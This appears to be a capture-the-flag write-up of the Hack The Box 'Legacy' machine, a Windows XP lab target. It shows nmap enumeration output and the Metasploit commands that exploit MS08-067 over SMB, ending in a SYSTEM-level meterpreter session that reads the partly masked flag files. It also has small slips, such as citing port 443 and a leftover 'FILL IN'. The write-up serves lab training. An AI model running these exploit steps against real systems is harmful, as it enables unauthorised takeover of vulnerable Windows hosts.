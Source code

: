 - Machine: Legacy
- IP: 10.10.10.4
- OS: Windows

## Enumeration

nmap shows 2 open ports: 139 and 443. These are SMB ports.

```
# Nmap 7.70 scan initiated Mon Aug 12 02:29:34 2019 as: nmap -sCV -vvv -oA legacy 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received echo-reply ttl 127 (0.19s latency).
Scanned at 2019-08-12 02:29:34 EDT for 286s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h21m05s, deviation: 2h07m16s, median: 4d22h51m05s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:8f:0f:0e (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 8f 0f 0e 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 30047/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 9380/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-08-17T11:21:14+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 12 02:34:20 2019 -- 1 IP address (1 host up) scanned in 286.43 seconds
```

Scanned for vulns with `$ nmap -p139,443 FILL IN` and found it's vulnerable to MS08-67.

Use `exploit/windows/smb/ms08_067_netapi` worked, but I want to exploit it manually
After trying every MS08-67 exploit I could find (and making the appropriate changes to them) they all failed. Metasploit it is...

(Someone made it work though: https://0xdf.gitlab.io/2019/02/21/htb-legacy.html)

```
msfconsole
> use use exploit/windows/smb/ms08_067_netapi
> set RHOST 10.10.10.4
> set RPORT 445
> run
```

## Post Exploitation

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Nice. We're root already.

```
meterpreter > cat "C:\Documents and Settings\john\Desktop\user.txt"
e69af***************************

meterpreter > cat "C:\Documents and Settings\Administrator\Desktop\root.txt"
99344 ***************************
```
